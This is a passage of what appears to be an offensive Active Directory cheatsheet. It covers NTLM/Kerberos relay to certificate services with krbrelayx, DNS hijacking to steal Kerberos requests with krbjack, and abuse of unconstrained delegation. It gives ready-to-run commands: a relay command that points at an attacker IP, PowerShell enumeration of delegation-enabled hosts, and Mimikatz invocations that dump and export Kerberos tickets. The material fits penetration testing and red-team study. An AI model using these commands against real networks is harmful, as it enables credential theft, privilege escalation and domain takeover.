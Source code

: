 This attack is presented in the Active Directory - Python edition cheatsheet.

* [ADCS ESC8 & 11](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services#bkmrk-relay-attacks---esc8)
* [SCCM primary site takeover](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-sccm-%2F-mecm)

#### krbrelayx

To relay authentication from a mitm6 DNS spoofing to ADCS:

```bash
krbrelayx.py --target http://CA.domain.local/certsrv -ip <attacker_IP> --victim target$ --adcs --template Machine
```

#### krbjack

A tool ([https://github.com/almandin/krbjack](https://github.com/almandin/krbjack)) to perform DNS updates thanks to the `ZONE_UPDATE_UNSECURE` flag in the DNS configuration. Perform a MiTM between any client and a target machine by changing its DNS resolution, forward all the packets to the specified ports, and steal the `AP_REQ` packets on the fly to reuse them.

This attack is presented in the Active Directory - Python edition cheatsheet.

## Kerberos Delegations

Kerberos delegations can be used for local privesc, lateral movement or domain privesc. The main purpose of Kerberos delegations is to permit a principal to access a service on behalf of another principal.

There are two main types of delegation:

* **Unconstrained Delegation**: the first hop server can request access to any service on any computer
* **Constrained Delegation**: the first hop server has a list of service it can request

### Unconstrained delegation

#### Compromised machine in Unconstrained Delegation

* Enumerate computers with Unconstrained Delegation

```powershell
Get-NetComputer -UnConstrained

#With AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

* Get admin ticket

After compromising the computer with UD enabled, we can trick or wait for an admin connection

```powershell
#Check if a ticket is available
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#If yes
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
